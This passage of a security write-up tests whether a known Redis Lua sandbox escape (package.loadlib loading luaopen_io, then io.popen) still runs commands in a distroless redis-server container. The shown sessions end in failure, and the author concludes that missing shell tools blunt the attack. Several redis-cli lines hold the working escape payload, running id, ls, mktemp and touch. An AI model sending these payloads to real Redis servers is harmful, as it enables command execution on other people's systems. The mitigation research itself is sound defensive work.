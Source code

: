 ## 2 - Check if the vulnerability from the blog post is an issue

Here I want to check and see if the vulnerability is still an issue using this distroless version of the vulnerable redis-server executable.

My first attempt failed with the following:

```shell
> redis-cli 
127.0.0.1:6379> eval 'local io_l = package.loadlib("/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("id","r"); local res = f:read("*a"); f:close(); return res' 0
(error) ERR Error running script (call to f_9cabd633a6136fa5cee1fc0747179be1c83cd700): @user_script:1: user_script:1: attempt to index local 'f' (a nil value) 
```

I found I needed to also copy the `sh` executable too so the `io.popen` would work correctly.  I added the following line to the Dockerfile:

```Dockerfile
COPY --from=build /usr/bin/sh /bin/sh
```

Which resulted in the following from the `redis-cli` output:

```shell
127.0.0.1:6379> eval 'local io_l = package.loadlib("/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("id","r"); local res = f:read("*a"); f:close(); return res' 0
""
```

And the following in the `redis-server` output:

```shell
sh: 1: id: not found
```

At this point I can see one mitigation for this specific attack and those which rely on shell scripting is that the attack is pretty much neutralised when the required tools are not present on the target instance.  In this case the example of the vulnerability used `id`, `touch`, `cat` and `ls`, `mktemp`.  If we run all the examples from the SysDig blogpost we get similar output.

`redis-cli` output:

```shell
127.0.0.1:6379> eval 'local io_l = package.loadlib("/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("id","r"); local res = f:read("*a"); f:close(); return res' 0
""
127.0.0.1:6379> eval 'local io_l = package.loadlib("/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("ls /tmp", "r"); local res = f:read("*a"); f:close(); return res' 0
""
127.0.0.1:6379> eval 'local io_l = package.loadlib("/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("TMPFILE=$(mktemp -p /dev/shm); echo derp > $TMPFILE; cat $TMPFILE", "r"); local res = f:read("*a"); f:close(); return res' 0
""
127.0.0.1:6379> eval 'local io_l = package.loadlib("/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("touch /tmp/abc123", "r"); local res = f:read("*a"); f:close(); return res' 0
""
```
